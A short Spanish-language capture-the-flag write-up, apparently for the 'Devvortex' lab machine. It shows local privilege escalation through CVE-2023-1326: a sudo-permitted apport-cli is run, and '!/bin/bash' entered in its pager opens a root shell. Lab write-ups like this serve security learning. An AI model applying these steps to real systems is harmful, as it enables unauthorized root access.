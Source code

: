 #CVE-2023-1326

-----
```shell
sudo -l
```
![[Devvortex30.png]]
Nos indica que todos pueden usar el binario apport-cli sin proporcionar contraseña
Usamos el comando `apport-cli -v` para ver la version y vemos que es la *2.20.11*
![[Devvortex35.png]]

Viendo el [siguiente articulo sobre CVE-2023-1326 hecho por diego-tella](https://github.com/diego-tella/CVE-2023-1326-PoC) tenemos este CVE para la version 2.26.0, asi que como tenemos una version mas vieja, vamos a probar ejecutar lo mismo

Vemos que si ejecutamos el binario de la siguiente forma``sudo /usr/bin/apport-cli /bin/bash`

![[Devvortex31.png]]
Luego cuando nos pide que queremos hacer, ponemos la *v* que es para ver el reporte
Y vamos a poner *!/bin/bash* para que se nos abra una shell con los permisos de root
![[Devvortex32.png]]
Ya ganamos acceso como root y podemos catear las flags
![[Devvortex34.png]]
